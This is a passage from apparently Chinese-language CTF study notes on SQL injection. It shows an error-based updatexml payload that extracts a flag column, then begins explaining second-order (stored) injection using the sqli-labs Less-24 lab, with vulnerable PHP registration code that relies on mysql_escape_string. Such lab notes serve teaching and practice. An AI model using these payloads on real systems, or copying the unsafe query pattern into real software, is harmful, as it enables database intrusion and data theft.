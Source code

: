 ```mysql

爆字段值
id=1"or(updatexml(1,concat(0x7e,(select( substr(group_concat(real_flag_1s_here),1,6)))from(users))),1))--+
```



### 二次注入--存储型注入

**原理**

![ctf1](../../../../images/1.png)

常见转义函数

```php
addslashes()
mysql_escape_string()
```

以`sql-labs Less-24`为例

创建用户

```php
$username=  mysql_escape_string($_POST['username']) ;
$pass= mysql_escape_string($_POST['password']);
$re_pass= mysql_escape_string($_POST['re_password']);

$sql = "insert into users ( username, password) values(\"$username\", \"$pass\")";
```

使用不恰当的函数`mysql_escape_string`，功能为在 MySQL 中具有特殊含义的字符（如单引号、双引号、反斜杠和空字节）前添加反斜杠字符。所以脏数据还是进入到了数据库中。

修改密码处

